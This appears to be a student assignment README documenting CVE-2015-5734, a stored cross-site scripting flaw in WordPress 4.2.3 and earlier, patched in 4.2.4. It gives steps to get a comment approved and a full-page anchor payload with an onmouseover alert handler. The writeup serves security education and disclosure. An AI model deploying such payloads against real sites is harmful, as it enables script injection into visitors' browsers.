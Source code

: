 # Steps
#### Step 1 - Gain trust from the admin
######	If you have the ability to post skip to step 3
######	Create a comment on a post.

#### Step 2 - Wait
###### Wait for approval from the admin.

#### Step 3 - Inject XSS
######	Comment the payload.
	<a href='/wp-admin/' title="XSS" style="position:absolute;top:0;left:0;width:100%;height:100%;display:block;" onmouseover=alert(2)//' rel="nofollow">Hello World</a>




# The types / classes of vulnerabilities involved and any related CVE identifiers
#### Legacy Theme Preview Cross-Site Scripting (XSS)

#### CVE-2015-5734 



# Affected versions and patches
#### Affected version
###### WordPress <= 4.2.3 

#### Patched in
###### version 4.2.4



# Demo
![alt text](https://github.com/Mikhail-Kreytser/Cybersecurity-Week7/blob/master/XSS%202/Demo.gif "XSS Demo")

# References
#### https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-5734
